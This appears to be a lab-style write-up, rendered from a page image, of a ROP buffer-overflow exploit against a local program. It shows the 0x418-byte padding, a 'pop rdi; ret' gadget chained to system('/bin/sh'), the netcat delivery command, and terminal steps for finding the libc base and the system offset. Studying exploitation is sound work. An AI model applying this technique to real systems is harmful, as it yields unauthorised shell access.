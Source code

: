 Python2 ropexploit.py | nc localhost 1111 

## Planning the exploit 

By examining the stack when the buffer overflow occur, and doing several debugging, it turns out that the way I should do is like this:
- Overflow the buffer with 0x418 length of whatever..
- Put address of the first chain of gadgets
- The ret; instruction on each of them will make ESP works as the instruction pointer and each time a gadget is loaded, then next provided address will be the one returned to.
- Put address of /bin/sh
- Put address of system()


The first gadget seem to be all what I need + an address to system() + some where to place /bin/sh

```
[G1]  :  0x0000000000426bf3 : pop rdi ; ret
```

My first attempt was trying to this:
```
[0x418---------------------------------][G1][&pointer_to /bin/sh][&SYSTEM()] 
```
	
To make it easier I first send the string /bin/sh\x00 with null terminated then use the buffer address as the pointer to be loaded into rdi.

## Attack construction 
	
So the attack will be like this:
```
"/bin/sh\x00"[..padding..]
[G1] [&buf] [system]
```
The way I get system is by looking up the offset of system in the libc library, and look up /proc/pid/maps to figure out where libc is loaded for that particular program. 

### Getting addresses of libc + offset of system()
```
spatialisotope@prset04:~/rop$ nm -D /lib/x86_64-linux-gnu/libc.so.6 | grep '\<system\>' 
0000000000046640 W system
spatialisotope@prset04:~/rop$ ps -al
F S   UID   PID  PPID  C PRI  NI ADDR SZ WCHAN  TTY          TIME CMD
0 R  1000  4068  3928 92  80   0 -  8151 -      pts/0    00:40:47 prset04
0 S  1000  4108  4065  0  80   0 - 18888 poll_s pts/1    00:00:00 gdb
1 t  1000  4115  4068  0  80   0 -  8151 ptrace pts/0    00:00:00 prset04
0 R  1000  4118  4087  0  80   0 -  1785 -      pts/2    00:00:00 ps
spatialisotope@prset04:~/rop$ grep libc /proc/4115/maps
7fb8bd68f000-7fb8bd84a000 r-xp 00000000 00:1e 1171                       /lib/x86_64-linux-gnu/libc-2.19.so
7fb8bd84a000-7fb8bda49000 ---p 001bb000 00:1e 1171                       /lib/x86_64-linux-gnu/libc-2.19.so
7fb8bda49000-7fb8bda4d000 r--p 001ba000 00:1e 1171                       /lib/x86_64-linux-gnu/libc-2.19.so
7fb8bda4d000-7fb8bda4f000 rw-p 001be000 00:1e 1171                       /lib/x86_64-linux-gnu/libc-2.19.so
spatialisotope@prset04:~/rop$ 
```
